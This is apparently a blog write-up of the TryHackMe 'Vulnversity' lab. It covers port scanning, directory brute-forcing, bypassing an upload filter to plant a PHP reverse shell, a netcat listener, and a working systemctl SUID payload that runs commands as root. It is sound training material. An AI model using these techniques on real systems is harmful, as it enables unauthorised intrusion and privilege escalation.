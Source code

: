 ```yaml
---
author: NotCare
pubDatetime: 2022-01-20T10:01:00Z
title: THM - Vulnversity Writeup
postSlug: thm-vulnversity-writeup
featured: true
draft: false
tags:
  - writeup
  - thm
ogImage: ""
description: Vulnversity is a THM room where we apply active recon with web app attacks to do privilege escalation
---
```


## Abstract

Vulnversity is a TryHackMe room where we apply active recon with web app attacks to do privilege escalation

## Tryhackme

THM room: [Vulnversity](https://tryhackme.com/room/vulnversity)</br>
Level: Easy

## Challenge

- user flag
- root flag

## Reconnaissance

As with anything, we'll firstly use nmap for reconn

### port scanning

we will identify services running and open ports vulnerable to exploit
let's run it
`nmap -sV -sC -oN nmapresults.file 10.10.103.159`
![nmapreconn.png](/assets/thm-vuln/nmapreconn.png)
sV for enumuerate versions
sC for default scripts
oN for output format

we see that the server is exposing port 3333 for a website
Lets check it out in the browser
![webpage.png](/assets/thm-vuln/webpage.png)

## Enumerate web

The website looks like a generic university portal more like VULNVERSITY :D alright lets run dirbuster aka `dirb` to check for any hidden directories

```
dirb http://10.10.103.159:3333/ /usr/share/wordlists/dirb/common.txt -o dirbbrute
```

![vuln-dirbbrute](/assets/thm-vuln/vuln-dirbbrute.png)
Among regular dirs, we see one that stands out and its `internal`, if we navigate to the page, we get an upload file page.

## Filter bypass

Checking the upload page, we see that `jpeg` is allowed and we cant outright upload our `.php` reverse shell, what we do now is to check for extensions that are allowed
Thanks to thm, they gave us a wordlist to try
![vuln-phpextensions](/assets/thm-vuln/vuln-phpextensions.png)
Now make sure burp is configured, we are going to intercept the request, send it to the intruder and we select payload as sniper and add extension field to be enumerated as shown below
![vuln-payloadpositions](/assets/thm-vuln/vuln-payloadpositions.png)

lets load the extension file from `payloads` tab
![vuln-phplist](/assets/thm-vuln/vuln-phplist.png)
out of these extensions, the response length for `.phtml` stands out

## Reverse shell

_what is a reverse shell? its basically code written to make an outbound connection to our machine and pop a shell for us_
now we need to just locate the shell, its there in `/internal/uploads`. before we pop a shell, set up a netcat listener on attacking machine `nc -lvnp [port]`

### user flag

navigating to the file we get a shell and finally our first flag `user.txt` at `/home/bill/user.txt`
![vuln-userflag](/assets/thm-vuln/vuln-userflag.png)

## Privilege Escalation

Now that we've compromised the machine, lets escalate our privileges and become root. A common technique is to check for `SUID binaries` for privesc. So how do we check?
**find / -user root -perm` `-4000` `-exec ls -ldb {} \;**
out of the huge output `systemctl` stands out, great now we'll take help from our good friend `gtfobins` for `systemctl`, as we see and I quote **If the binary is allowed to run as superuser by** sudo **it does not drop the elevated privileges and may be used to access the file system,escalate or maintain privileged access.**
Okay good lets try the payload

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

what we're essentially doing is making a service called `TF` then making it execute whats in `ExecStart` and at last, linking and enable the service `TF`.

### root flag

pasting the payload and `cat-ing` the `/tmp/output` we get the last and final flag `root.txt`
![vuln-rootflag](/assets/thm-vuln/vuln-rootflag.png)

Thanks for reading!!
